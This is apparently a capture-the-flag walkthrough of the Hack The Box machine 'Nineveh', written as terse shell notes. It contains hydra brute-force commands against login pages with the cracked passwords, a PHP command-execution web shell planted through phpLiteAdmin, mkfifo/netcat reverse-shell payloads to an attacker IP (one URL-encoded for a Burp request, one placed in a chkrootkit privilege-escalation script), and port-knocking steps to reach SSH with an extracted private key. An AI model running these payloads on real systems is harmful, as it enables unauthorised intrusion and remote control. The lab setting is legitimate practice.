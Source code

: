**Enumeration** 
```shell
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.43 -o http-output.txt

Ignore SSL error:
root@kali:~/HTB/Nineveh# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.43 -o https-output.txt -k
Find:
http://10.10.10.43/department/login.php
https://10.10.10.43/db/
https://10.10.10.43/secure_notes/
```
**Hydra:**
```shell
root@kali:~/HTB/Nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```
**For Department page:
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found**
```shell
root@kali:~/HTB/Nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
```
**For PHP Lite Admin page:
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123**

**Show details by -x:
root@kali:~/HTB/Nineveh# searchsploit -x 24044.txt**

Then make reverse shells(shells.txt):

Create database "ninevehNotes.php" Field=1

Rename table:test --> Table 'ninevehNotes' 
```shell
Field input:
<?php echo system($_REQUEST["ipp"]; ?>
```
#### MOVE to Burp and change to POST:
--------------------------------------------------------------------
```shell
POST /department/manage.php?notes=/var/tmp/ninevehNotes.php HTTP/1.1
Host: 10.10.10.43
...
ipp=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+1668+>/tmp/f
```
--------------------------------------------------------------------
#### REMEMBER Encode special character like " " ---> "+" and ";"--->"%3b" "&"--->"%26"
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1668 >/tmp/f
Applied to web shell:
ipp=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+1668+>/tmp/f
```
--------------------------------------------------------------------
**As python setting problem:**
```shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**CRON job on report, show history**
```shell
www-data@nineveh:/report$ ps -eo command
```
**LOOP history action:**
```shell
www-data@nineveh:/report$ for i in $(ps -eo command)ls ; do echo $i; done
To confirm IFS is "space" as new line:
www-data@nineveh:/report$ IFS=$'\n'
```
***write a script: procmon.sh***
```shell
--------------------------------------------------------------------
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process")
	sleep 1
	old_process=$new_process
done
--------------------------------------------------------------------
```
```shell
www-data@nineveh:/var/tmp$ ./procmon.sh

172a173
> sleep 1
172a173,177
> /usr/sbin/CRON -f
> /bin/sh -c /root/vulnScan.sh
> /bin/bash /root/vulnScan.sh
> /bin/sh /usr/bin/chkrootkit
...
< ps -eo command
...
```
### "< /bin/sh /usr/bin/chkrootkit" finds exploit-db 33899
### Then create a update file placed /tmp as /tmp/update
### "/3"--> as Third terminal!
```shell
--------------------------------------------------------------------
#!/bin/bash
rm /tmp/3;mkfifo /tmp/3;cat /tmp/3|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/3
--------------------------------------------------------------------
```
#### ~Other way~
https://10.10.10.43/secure_notes/
Show hidden content: 
root@kali:~/HTB/Nineveh# binwalk -Me nineveh.png 
...
As a result:
```shell
Public key:
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# cat nineveh.pub 
Private Key:
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# cat nineveh.priv 
-----BEGIN RSA PRIVATE KEY-----
...
```
****root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# chmod 600 nineveh.priv 
BUT No SSH^-^****
```shell
www-data@nineveh:/etc/init.d$ netstat -alnp | grep LIST
netstat -alnp | grep LIST
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
```
#### This is port knocking services~~
www-data@nineveh:/etc/init.d$ cat /etc/knockd.conf
....
[openSSH]
 sequence = 571, 290, 911 
....
Below all wrong:
for i in 571 290 911; do nmap -Pn -p $i --host_timeout 201 --max-retries 0 10.10.10.43; done
for x in 571 290 911; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 10.10.10.43; done
#### Real:
```shell
root@kali:~/HTB/Nineveh# for i in 571 290 911; do nmap -Pn -p $i --max-retries 0 10.10.10.43; done
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
Then:
root@kali:~/HTB/Nineveh# nmap -p 22 10.10.10.43
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Nmap scan report for 10.10.10.43
Host is up (0.22s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```
#### Finally readly to connect:
**** root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# ssh -i nineveh.priv amrois@10.10.10.43
